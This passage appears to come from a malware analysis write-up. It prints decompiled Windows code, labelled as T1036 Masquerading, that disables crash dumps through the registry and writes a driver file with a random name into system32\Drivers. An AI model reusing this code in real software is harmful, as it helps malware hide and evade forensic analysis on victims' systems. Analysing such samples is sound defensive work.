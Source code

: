```c
  if ( !RegOpenKeyW(HKEY_LOCAL_MACHINE, L"SYSTEM\\CurrentControlSet\\Control\\CrashControl", &phkResult) )
  {
    *(_DWORD *)Data = 0;
    RegSetValueExW(phkResult, L"CrashDumpEnabled", 0, 4u, Data, 4u);
    RegCloseKey(phkResult);
  }
```
<br /><br />
Create random file with in the system32\drivers - T1036 Masquerading: Match Legitimate Name or Location

```c
  wnsprintfW(Destination, 260, L"\\\\.\\EPMNTDRV\\%u", 0);
  v10 = (void *)sub_401870(Destination, 0, 0);
  if ( !v10 || v10 == (void *)-1 )
  {
    *(_DWORD *)Data = &pszDest[v38];
    if ( GetSystemDirectoryW(*(LPWSTR *)Data, 0x104u) )
    {
      PathAppendW(pszDest, L"Drivers");
      PathAddBackslashW(pszDest);
      v38 = 26;
      v12 = &pszDest[wcslen(pszDest)];
      do
      {
        v32[0] = 6422625;
        v32[1] = 6553699;
        v32[2] = 6684773;
        v32[3] = 6815847;
        v32[4] = 6946921;
        v32[5] = 7077995;
        v32[6] = 7209069;
        v32[7] = 7340143;
        v32[8] = 7471217;
        v32[9] = 7602291;
        v32[10] = 7733365;
        v32[11] = 7864439;
        v32[12] = 7995513;
        v13 = GetCurrentProcessId();
        v14 = (v13 + 1) % 0xFFF1;
        *v12 = *((_WORD *)v32 + (v14 + ((v14 % 0xFFF1) << 16)) % v38);
        v12[1] = *((_WORD *)v32
                 + ((v14 + v13) % 0xFFF1 + (((v14 % 0xFFF1 + (v14 + v13) % 0xFFF1) % 0xFFF1) << 16)) % 0x1A);
        StrCatBuffW(v12 + 1, L"drv", 4);
        v12[6] = 0;
      }
      while ( PathFileExistsW(pszDest) );
      v15 = PathFindExtensionW(v12) - v12;
      wcsncpy(Destination, v12, v15);
      v16 = *(WCHAR **)Data;
      Destination[v15] = 0;
      v17 = CreateFileW(v16, 0x40000000u, 0, 0, 2u, 0, 0);
      v18 = (void (__stdcall *)(LPCWSTR))DeleteFileW;
      v19 = v17;
      if ( v17 && v17 != (HANDLE)-1 )
      {
        phkResult = 0;
        if ( WriteFile(v17, lpBuffer, nNumberOfBytesToWrite, (LPDWORD)&phkResult, 0)
          && phkResult == (HKEY)nNumberOfBytesToWrite )
        {
          if ( v19 != (void *)-1 )
          {
```